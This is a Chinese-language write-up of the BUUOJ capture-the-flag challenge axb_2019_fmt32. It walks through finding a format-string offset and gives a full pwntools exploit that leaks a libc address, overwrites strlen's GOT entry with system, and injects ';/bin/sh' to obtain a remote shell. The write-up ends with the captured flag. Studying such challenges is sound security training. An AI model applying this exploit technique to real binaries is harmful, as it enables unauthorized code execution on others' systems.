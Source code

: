 # axb_2019_fmt32

[题目地址](https://buuoj.cn/challenges#axb_2019_fmt32)

每次遇见格式化字符串不知道该说自己懂还是不懂。懂吧，又做不出来；不懂吧，看[wp](https://blog.csdn.net/BengDouLove/article/details/105565250)一下就能看懂。

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

没有relro，程序逻辑也很简单，并且漏洞十分明显。好耶！

```c
void main(void)

{
  size_t sVar1;
  int in_GS_OFFSET;
  undefined local_241 [257];
  char local_140 [300];
  undefined4 local_14;
  undefined *puStack12;
  
  puStack12 = &stack0x00000004;
  local_14 = *(undefined4 *)(in_GS_OFFSET + 0x14);
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts(
      "Hello,I am a computer Repeater updated.\nAfter a lot of machine learning,I know that the esse nce of man is a reread machine!"
      );
  puts("So I\'ll answer whatever you say!");
  while( true ) {
    alarm(3);
    memset(local_241,0,0x101);
    memset(local_140,0,300);
    printf("Please tell me:");
    read(0,local_241,0x100);
    sprintf(local_140,"Repeater:%s\n",local_241);
    sVar1 = strlen(local_140);
    if (0x10e < sVar1) break;
    printf(local_140);
  }
  printf("what you input is really long!");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

看到是格式化字符串，我立刻就想到利用格式化漏洞改某个函数的got表为system。看了一下目标，strlen很不错啊，参数可以自由控制且数目对得上system。然而我犹豫了，因为看见snprintf会把我们的输入改为`Repeater:输入`的形式，这明显不能是system的正确参数。果然犹豫就会败北，我摸鱼摸昏头了，忘记了system函数的本质，以为`system("/bin/sh")`是固定的getshell语句，其实system函数本质上是向操作系统传递控制台命令行。也就是说，我们输入的参数会被当作命令，存在命令注入。

格式化字符串第一步当然是找偏移了。32位程序，输入惯用的AAAA加一堆%p。

```
Hello,I am a computer Repeater updated.
After a lot of machine learning,I know that the essence of man is a reread machine!
So I'll answer whatever you say!
Please tell me:AAAA,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p
Repeater:AAAA,0x804888d,0xffb1f2ef,(nil),0xf7f3030a,(nil),0x45,0x41594633,0x2c414141,0x252c7025,0x70252c70,0x2c70252c,0x252c7025,0x70252c70,0x2c70252c,0x252c7025,0x70252c70,0x2c70252c,0x252c7025
```

注意到完整的0x41414141没有出现，取而代之的是0x2c414141。这意味着我们输入的地方栈没有对齐，这种情况下需要调整输入，直到完整的0x41414141出现，比如这样：

```
Hello,I am a computer Repeater updated.
After a lot of machine learning,I know that the essence of man is a reread machine!
So I'll answer whatever you say!
Please tell me:AAAAA,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p
Repeater:AAAAA,0x804888d,0xffaaeb7f,(nil),0xf7fa130a,(nil),0x46,0x4159463c,0x41414141,0x2c70252c,0x252c7025,0x70252c70,0x2c70252c,0x252c7025,0x70252c70,0x2c70252c,0x252c7025,0x70252c70,0x2c70252c
```

从AAAAA下面的0x804888d开始数起（包括这个和nil），一直到第一个完整的0x41414141（包括），就是偏移，此处为8。可以开始考虑怎么改strlen的got表了。system在libc里，先泄露地址，算出偏移后就能用%hn两个字节两个字节地写入了。

```python
from pwn import *

context(os='linux',arch='i386',log_level='debug')

sh = remote("node4.buuoj.cn","28633")

printf_got = 0x804A014
strlen_got = 0x804A024

#A是调整栈帧的填充，然后是要泄露的地址。22纯粹是为了方便下面接收地址，%8$s是偏移
x = b'A' + p32(printf_got)+ b'22' + b'%8$s'
sh.sendafter("Please tell me:",x)

sh.recvuntil("22")
printf_addr = u32(sh.recv(4))
print(hex(printf_addr))

system_addr = printf_addr - 0xe6e0
binsh = printf_addr + 0x11000b

#利用位运算取高位低位的操作，可以记一下，算是个小技巧
high_sys = (system_addr >> 16) & 0xffff
low_sys = system_addr & 0xffff
print('sys'+hex(system_addr))
print('low'+hex(low_sys))
print('high'+hex(high_sys))

#每4个字节偏移多一个1，A还是填充，接着的两个是strlen函数的低2位和高2位，偏移分别为8和9。无论使用hn还是hhn还是n写入地址时，都需要先写小的再写大的，因为格式化字符串通过已输出的字节数来写入值
x = b'A' + p32(strlen_got) + p32(strlen_got+2) + b'%' + str(low_sys-18).encode() +b'c%8$hn' + b'%' + str(high_sys - low_sys).encode() + b'c%9$hn'
#x = 'A' + p32(strlen_got) + '%' + str(system_addr-14) + 'c%8$n' 
# 用%n写入不行，程序超时而且并没有写入，之后还是正常运行
sh.sendafter("Please tell me:",x) 

#命令注入，引号表示第二个执行的命令。虽然前面的 Repeater: 不是命令，但是后面的就是了，前面的无法执行不影响后面命令的执行
x = b';/bin/sh\x00'
sh.sendafter("Please tell me:",x)

sh.interactive()
```

## Flag
> flag{fc263df0-7d5c-4c36-9522-2707bfff1820}